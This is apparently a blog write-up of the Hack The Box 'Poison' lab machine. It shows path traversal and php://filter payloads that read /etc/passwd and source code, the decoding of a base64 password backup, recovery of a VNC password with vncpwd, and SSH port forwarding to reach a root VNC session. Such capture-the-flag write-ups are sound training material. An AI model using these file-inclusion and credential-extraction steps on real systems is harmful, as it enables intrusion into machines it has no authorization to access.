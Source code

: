 ```yaml
---
title: "Hack the box - Poison"
date: 2018-08-10T11:28:47+02:00
draft: false
---
```


This is my writeup of the [poison](https://www.hackthebox.eu/home/machines/profile/132) machine from HackTheBox.eu.
The machine is currently 138 days old, it has 6955 user owns and 4330 system owns, and is rated 3.8 in difficulty.

![HTB status](htb-status.png)

## Scanning and Enumeration

I started out with a scan of the machine to find any open ports `nmap -Pn -p1-65535 -A -v -sS 10.10.10.84`. The resulting [scan](nmap_scan) showed the following open ports

- 22 OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
- 80 Apache/2.4.29 (FreeBSD) PHP/5.6.32
- 5802/tcp open http Bacula http config
- 5902/tcp open vnc VNC (protocol 3.8)
- 5903/tcp open vnc VNC (protocol 3.8)
- 6002/tcp open X11 (access denied)
- 6003/tcp open X11 (access denied)

I noticed a lot of VNC sessions, but decided to start out with the web server.

## Owning User

When I opened the site the following screen greeted me

![index](index.png)

Without testing the scripts the website suggested, I immediately tested for local file include (LFI) and remote file inclusion (RFI). This lead me somewhat off track as I only needed the scripts in order to own the user.

First, I manually tried to get LFI by including `../../../../../etc/passwd`. This succeeded (see [/etc/passwd/](passwd)), and I found the `charix` user at the very bottom (this is also the name of the machine creator).

```sh
$ curl http://10.10.10.84/browse.php?file=../../../../../etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
---- snip ----
charix:*:1001:1001:charix:/home/charix:/bin/csh

```

Trying different php LFI techniques (see [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal)) I could leverage `php://filter` to get the source code for the vulnerable inclusion script

```sh
$ curl -s "http://10.10.10.84/browse.php?file=php://filter/convert.base64-encode/resource=browse.php" | base64 -d
<?php
include($_GET['file']);
?>
```

Further LFI fuzzing using `dirb` and the `LFI-jhaddix` file from SecLists gave me a lot of files, from which I could not use anything `dirb http://10.10.10.84/browse.php?file= SecLists/Fuzzing/LFI-JHADDIX.txt  -f`. See [LFI-results](fuzz_lfi-jhaddix) for the files it got me.

Getting back on track using the scripts the website suggested my:
Using list-files got me

```php
Array
(
    [0] => .
    [1] => ..
    [2] => browse.php
    [3] => index.php
    [4] => info.php
    [5] => ini.php
    [6] => listfiles.php
    [7] => phpinfo.php
    [8] => pwdbackup.txt
)
```

Reading `pwdbackup.txt` got me

```base64
Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

Decoding it 13 times gives `Charix!2#4%6&8(0`, which enabled me to log in `ssh charix@10.10.10.84`.

## Owning Root

During the enumeration I saw a lot of VNC sessions. One of these were started by root

```sh
charix@Poison:/tmp % ps auxww  | grep vnc
root   529   0.0  0.9  23620  8872 v0- I    09:01   0:00.05 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 1280x800 -depth 24 -rfbwait 120000 -rfbauth /root/.vnc/passwd -rfbport 5901 -localhost -nolisten tcp :1
charix 777   0.0  0.0    412   328  3  R+   09:06   0:00.00 grep vnc
```

This could be the entry point to owning root but I didn't know how.
What I could see was that there was a `.vnc` folder in the home folder of the `charix`. It contained a `passwd` file with some gibberish.

```sh
$ cat /home/charix/.vnc/passwd | xxd -p
a7cd4c5eab70e29b
```

After some searching around I found that it was the obfuscated password of the user.
As it was obfuscated there had to be someone who could deobfuscate it. A long story short, the password is DES encrypted by a static key.
But deobduscating the password of Charix made no sense as I already had access as that user.
I stopped with the vnc attack vector.

When SSH'ing in, the file `secret.zip` was located in the home directory. I copied the file to my local machine and unzipped it, which revealed the file `secret`.

```sh
$ scp ssh charix@10.10.10.84:secret.zip
$ unzip secret.zip #unzipped the file 'secret'
$ xxd -p secret
bda85b7cd5967a21
```

The contents of the file looked very similar to the `passwd` file for the vnc service for the Charix user.
I then tried to use the deobfuscater I found earlier, and sure enough it gave me a password

```sh
$ git clone https://github.com/jeroennijhof/vncpwd.git
$ cd vncpwd
$ gcc -o vncpwd vncpwd.c d3des.c
$ ./vncpwd ../secret
Password: VNCP@$$!
```

I then tried to log on to session 1 (the session number can be seen in the `ps` output above)

```sh
$ vncviewer 10.10.10.84:1
vncviewer: ConnectToTcpAddr: connect: Connection refused
Unable to connect to VNC server
```

Bummer. The session started by root was probably protected somehow.

I found an [article](http://www.penguintutor.com/linux/tightvnc) describing how to secure TightVNC on a raspberry pi, by only allowing connections from localhost. To get access he would use ssh port forwarding:

```
$ ssh charix@10.10.10.84 -L 5901:localhost:5901
```

This creates a tcp listener on my Kali box on port 5900. When a connection is established on that port it forwards the traffic through ssh and makes a connection to localhost (on the poison machine) on port 5901.

With the tunnel set up I tried to connect again

```
$ vncviewer localhost:1
```

Success! It prompted for a password, and handed me a vnc session:

![Getting root flag](vnc_root.png)

I couldn't figure out how to copy fro the session, and I had to manually copy it.
